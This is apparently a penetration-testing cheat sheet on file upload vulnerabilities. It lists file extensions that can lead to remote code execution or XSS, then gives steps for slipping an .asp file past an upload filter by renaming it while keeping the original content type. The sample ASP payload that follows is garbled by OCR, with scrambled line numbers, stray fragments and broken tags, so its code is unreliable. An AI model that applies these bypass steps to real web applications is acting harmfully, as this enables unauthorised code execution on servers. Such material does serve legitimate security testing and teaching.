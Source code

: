 # Upload Vulnerbilities 
- Bypassing Client Side Filters
- BruteForcing Extensions
- Content Type And Magic Bytes
- File Upload Using Python
- Content Type Python 
- Path Traversal
- rconfig 3.9.6 FIle Upload RCE via Python

## File Upload Extension
```bash
Try these file-uploading extensions accordingly.

ASP Applications:

.asa -> potential remote code execution

.asax -> potential remote code execution

.asp -> potential remote code execution

.aspx -> potential remote code execution

Java Applications: 

.jsp -> potential remote code execution

.jspx -> potential remote code execution

Perl Applications: 

.pl -> potential remote code execution

Python Applications: 

.py -> potential remote code execution

Ruby Applications:

.rb -> potential remote code execution

Other files that should be restricted for most applications: 

.bat
.cgi
.exe
.htm -> potential XSS
.html -> potential XSS
.jar
.rar
.shtml
.svg -> potential XSS
.swf -> potential XSS
.tar
.zip
.cer -> potential XSS
.hxt -> potential XSS
.stm -> potential XSS
```

- RCE via file upload on asp server. 
1. Do file upload normally -> send to repeater
1. Leave the "content type" the same in the post form, but change the filename to x.asp. Use a benign asp function like following:
1. Send it. If it worked, you bypassed the filter.
```bash
58 ---WebKitFor
59 Content-Disposition: form-data; name="
50 Content-Type: application/vnd.openxmlformats-officedocument.spreadsheetml.sheet
51
52 <%
63 Dim Vars
54 %>
55 <TABLE width="75%" BORDER=1 align="center" cellpadding="3" cellspacing="0">
56 < For Each Vars In Request.ServerVariables %>
57
<TR>
58
59
70
</TR>
71 <% Next >
72 </TABLE>
77
<TD><%= Vars %></TD>
<TD><%= Request. ServerVariables (Vars) >&nbsp;</TD>
Walki+r.
--Veiku T...
filename="x.asp"
```
